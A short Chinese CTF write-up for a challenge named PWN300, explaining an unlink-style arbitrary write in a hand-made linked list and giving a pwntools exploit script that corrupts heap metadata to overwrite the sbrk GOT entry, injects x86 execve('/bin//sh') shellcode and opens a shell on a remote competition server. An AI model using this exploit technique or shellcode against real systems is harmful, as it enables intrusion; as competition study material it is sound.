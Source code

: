 # PWN300

pwn300 是一血哦， pwn300 是一血哦， pwn300 是一血哦。重要的事情说三遍。

很简单一题，就是人工实现链表的时候忘了哪里出问题了。总之是一个类似 `unlink()` 的操作出现了 Arbitrary Write。和以前做过 pwnable 上的一题非常像。

```python
__author__ = "cMc_SARS"

from pwn import *

# p = process('pwn300')
p = remote('133.130.90.210', 6666)
context(terminal='tmux')

sbrk_got = 0x0804b028

for i in range(4):
    p.writeline('1')
    p.writeline('0')

p.writeline('3')
p.writeline('1')
p.writeline('2')
p.recvuntil('Give your Girl:')

payload_1 = util.cyclic.cyclic(length=7*4*4)
payload_1 += p32(0x81)
payload_1 += p32(sbrk_got-8)
p.write(payload_1)

p.writeline('2')
p.writeline('2')

p.writeline('3')
p.writeline('1')
p.writeline('2')
print p.recv()
raw_input()

payload = 'A'*6*4*4+16*'B'+p32(0)+p32(0)
payload += util.cyclic.cyclic(length=8*4*4-4)
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
p.write(payload)

p.interactive()
```

# PWN400
